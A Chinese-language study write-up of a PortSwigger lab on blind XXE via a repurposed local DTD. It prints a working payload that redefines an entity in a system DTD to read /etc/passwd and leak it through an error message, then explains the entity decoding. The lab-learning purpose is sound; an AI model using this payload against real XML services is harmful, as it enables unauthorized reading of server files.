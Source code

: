 ## Lab: Exploiting XXE to retrieve data by repurposing a local DTD

| Dimension | Description                                                                                           |
| --------- | ----------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-by-repurposing-a-local-dtd        |
| Lab       | https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd |

這題是 Expert 等級，但其實只要照著範例 + Hint 改一下就好

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

HTML Entity 解碼過程

```
&#x25; => %
&#x26; => &
&#x27; => '
```

解碼後

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

這個比較特別，會經過兩階段的解碼

```
&#x26;#x25; => &#x25; => %
```

我覺得，能想到這種 payload 的，根本是鬼才，要對 XML 的解析機制有很深入的了解吧！我光是要理解 payload 都有難度了...

## 小結

學完 XXE 之後，覺得還是很虛，要我在現實世界找到 XXE，我應該還是找不到，加上現代也很少用 XML 吧...基本上都是 JSON，我只有在 WordPress 的 `/xmlrpc.php` 看過 XML 傳輸格式而已。之後應該會再花時間補一下 XML 的基本語法，不然感覺沒有完整的學習到QQ

## 參考資料

- https://portswigger.net/web-security/xxe
